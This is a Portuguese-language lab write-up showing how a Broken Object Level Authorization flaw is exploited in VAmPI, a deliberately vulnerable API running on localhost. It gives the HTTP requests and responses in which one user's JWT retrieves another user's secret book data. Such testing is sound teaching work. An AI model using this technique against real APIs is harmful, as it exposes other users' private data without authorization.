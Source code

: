 ```yaml
---
sidebar_position: 2
---
```


# Exploração
---
Tendo em mente os questionamentos levantados ao final da sessão anterior, é possível realizar os testes de segurança a fim de descobrir onde a vulnerabilidade pode ser explorada.

Uma rota muito interessante para realizar esse teste de segurança é justamente o de manipulação de livros, o principal objeto da nossa API vulnerável, se trata da rota `/books/v1/`.

Nessa rota, um usuário pode acessar seus livros a partir dos títulos, retornando o segredo que foi armazenado juntamente com o livro. É importante ressaltar que os livros são pertencentes apenas a um usuário, sendo necessário realizar a autenticação antes de acessar essas informações.

## Autenticação na aplicação
Para que um usuário acesse seus livros, é necessário que o mesmo se autentique na aplicação, para isso basta utilizar a rota `/users/v1/login` usando uma requisição do tipo `POST` enviando as informações de login no body da requisição.

```python title="Request de login na aplicação"
POST /users/v1/login HTTP/1.1
Content-Type: application/json
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 8c0e8020-2efc-4460-b63c-04b5f7d5ba84
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 56

{
    "username": "jordan",
    "password": "password"
}
```
Na response, um token JWT é enviado e, através dele, que a autenticação será realizada em todas as requisições futuras.

```python title="Response de login na aplicação"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 225
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sat, 28 Jan 2023 18:38:43 GMT

{
    "auth_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
    eyJleHAiOjE2NzU5MzExMjIsImlhdCI6MTY3NDkzMTEyMywic3ViIjoiam9yZGFuIn0.
    hsFkgBl3aNHzEZ3a3ZoSw3tkO2JblOjbLdX9EJ2lIwA",
    "message": "Successfully logged in.",
    "status": "success"
}
```

## Consultando o livro de um usuário
Antes de mais nada, para guiar nossos testes, vamos conhecer os livros que estão presentes no bando de dados da aplicação. Basta fazer uma requisição do tipo `GET` para o endpoint `/books/v1` sem informar um titúlo específico.

```json title="Títulos dos livros salvos"
{
    "Books": [
        {
            "book_title": "bookTitle77",
            "user": "name1"
        },
        {
            "book_title": "bookTitle17",
            "user": "name2"
        },
        {
            "book_title": "bookTitle70",
            "user": "admin"
        },
        {
            "book_title": "Teste_segurança",
            "user": "jordan"
        },
        {
            "book_title": "Receitas_de_familia",
            "user": "name2"
        }
    ]
}
```
O usuário **jordan**, ao qual foi feita a autenticação no tópico anterior, possui o livro *Teste_segurança*.

Agora, com o usuário logado, será realizada uma requisição do tipo `GET` para a rota `/books/v1/:book_title`, que necessita de autenticação para trazer as informações adicionais do livro, funcionando apenas para o usuário que o possui.

_Nota: O caractere **ç** é exibido como %C3%A7 por estar codificado em UTF-8 para as requisições e respostas._

```python title="Request legítima de informações sobre o livro Teste_segurança"
GET /books/v1/Teste_seguran%C3%A7a HTTP/1.1
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NzU5MzExMjIsImlhdCI6MTY3NDkzMTEyMywic3ViIjoiam9yZGFuIn0.
hsFkgBl3aNHzEZ3a3ZoSw3tkO2JblOjbLdX9EJ2lIwA
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 0cdc66aa-0178-418c-a1f9-91b3f7c760f1
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

A resposta recebida foi o esperado: As informações completas do livro do usuário.

```json
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 105
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sat, 28 Jan 2023 18:41:03 GMT

{
    "book_title": "Teste_seguran\u00e7a",
    "owner": "jordan",
    "secret": "Broken Level Object Authorization!"
}
```

## Vulnerabilidade na rota `/books/v1/:book_title`
Para identificar a vulnerabilidade, as perguntas apresentadas pelo tópico anterior são o suficiente.

Tendo essas pergunta em mente, é hora de checar se um usuário poderia acessar as informações secretas do livro de outro usuário, utilizando apenas o título para isso.

No banco de dados existe um usuário chamado **name2**, que será a vítima do teste de consulta de informações sobre os seus livros.

Utilizando o token de autenticação do usuário **jordan** será feita uma requisição do tipo `GET` para o endpoint `/books/v1/:book_title`. Porém, será utilizado o título **Receitas_de_familía**, que é pertencente ao usuário **name2**.

```python title="Request maliciosa para o endpoint /books/v1/Receitas_de_familia usando o token de acesso do usuário jordan"
GET /books/v1/Receitas_de_familia HTTP/1.1
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJleHAiOjE2NzU5MzExMjIsImlhdCI6MTY3NDkzMTEyMywic3ViIjoiam9yZGFuIn0.
hsFkgBl3aNHzEZ3a3ZoSw3tkO2JblOjbLdX9EJ2lIwA
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 785d837a-3b9b-416f-8c00-38ced9b040da
Host: localhost:5000
Accept-Encoding: gzip, deflate
Connection: close
```

Após realizar a requisição, houve a seguinte reposta:

```json title="Response maliciosa"
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 128
Server: Werkzeug/1.0.1 Python/3.8.10
Date: Sat, 28 Jan 2023 19:36:04 GMT

{
    "book_title": "Receitas_de_familia",
    "owner": "name2",
    "secret": "Livro com todas as receitas secretas da minha fam\u00edlia."
}
```

A resposta do VAmPI indica que a vulnerabilidade Broken Level Authorization está presente na API, onde não está sendo realizada a validação do usuário antes de fornecer o acesso a um objeto.

Dessa forma, é possível consultar o segredo dos livros de todos os usuários da aplicação.

#### Mais referências disponíveis na [OWASP](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa8-injection.md).